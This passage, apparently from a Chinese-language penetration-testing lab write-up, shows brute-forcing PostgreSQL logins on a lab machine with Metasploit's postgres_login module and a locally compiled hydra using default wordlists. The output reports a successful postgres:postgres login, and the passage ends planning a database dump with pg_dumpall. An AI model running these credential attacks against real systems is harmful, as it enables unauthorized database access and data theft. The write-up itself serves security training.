 使用 msf 的 postgres\_login 模块爆破用户名密码，

```plain
msfconsole -q -x 'use scanner/postgres/postgres_login;set rhost 127.0.0.1;set rport 5557;run'
```

此外也可以利用靶机上存在的 hydra 进行爆破

```plain
//kali
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt webmin@192.168.50.10:~
scp /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt webmin@192.168.50.10:~

//靶机，靶机的 hydra 需要编译
tar -xzf post.tar.gz
./configure
make
make install (会提示权限不足，可忽略)

./post/hydra -L postgres_default_user.txt -P postgres_default_pass.txt postgres://127.0.0.1
```

[![](assets/1704158282-b75299ddf19097c2ab0431d9093a14cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010458-3b5368d4-a5a3-1.png)

> \[+\] 127.0.0.1:5557 - Login Successful: postgres:postgres@template1

## PostgreSQL 信息枚举

直接在靶机切换 postgres 用户提示授权失败。既然端口已经做了映射，可以在 kali 利用 pg\_dumpall 用来提取我们可以访问的所有数据库
